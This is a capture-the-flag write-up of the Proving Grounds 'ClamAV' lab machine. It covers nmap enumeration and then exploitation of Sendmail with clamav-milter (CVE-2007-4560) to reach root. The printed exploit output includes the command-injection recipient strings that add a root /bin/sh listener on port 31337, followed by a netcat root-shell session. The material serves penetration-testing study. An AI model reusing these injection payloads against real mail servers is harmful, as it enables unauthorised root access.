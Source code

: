 ```yaml
---
title: "Offensive-Security–Proving-Grounds–ClamAV-Write-up"
published: true
ayout: post
date: 2024-10-27 18:54 +0600
categories: [OSCP]
tags: [ctf,oscp] 
---
```


# Machine Type: Linux

## Attack Walkthrough 


### Step 1: Service Enumeration with Nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 07:21 EDT
Warning: 192.168.248.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.248.42
Host is up (0.10s latency).
Not shown: 65347 closed tcp ports (conn-refused), 181 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.45.192], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-10-27T11:22:30-04:00
|_clock-skew: mean: 5h59m59s, deviation: 2h49m43s, median: 3h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.02 seconds

```


**Run Nmap Scan**: 
Use Nmap to discover open services on the target. The following services are detected: - **SSH** - **HTTP** - **SMTP** - **SMB** ```


**No Accessible SMB Shares**: After checking for accessible shares, none were found on the SMB service.

### Step 2: Exploit Research for SMTP Service

1. **Research SMTP Version for Exploits**: After identifying the SMTP server version, a quick search online revealed the following exploit:
    
    - **Exploit**: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
    - **CVE**: CVE-2007-4560
    
    This exploit affects the version running on the target and is capable of remote command execution.
    
2. **Interesting Detail**: Notably, the machine's hostname is **clamav**, aligning with the exploit details. The exploit opens a new port (31337) on the target for a root shell (`/bin/sh`).


### Step 3: Executing the Exploit

1. **Run the Exploit**: Execute the exploit to open port 31337, providing access to a root shell on the target.


```
perl 4761.pl $target                                                                                                                                                                   ✔  1072  07:29:00 
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.248.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Oct 2024 19:38:00 -0400; (No UCE/UBE) logging access from: [192.168.251.248](FAIL)-[192.168.251.248]
250-localhost.localdomain Hello [192.168.251.248], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 49RNc0PA004595 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```


**Connect to Root Shell**: Once confirmed, connect to port 31337 to access the root shell.

```
c -nv  $target 31337                                                                                                                                                    1 ↵  1080  15:33:58 
(UNKNOWN) [192.168.248.42] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
xxxxxxxxxxxxxxxxxxxx

```

### Conclusion

By leveraging the CVE-2007-4560 exploit, a root shell was successfully established on the target system.
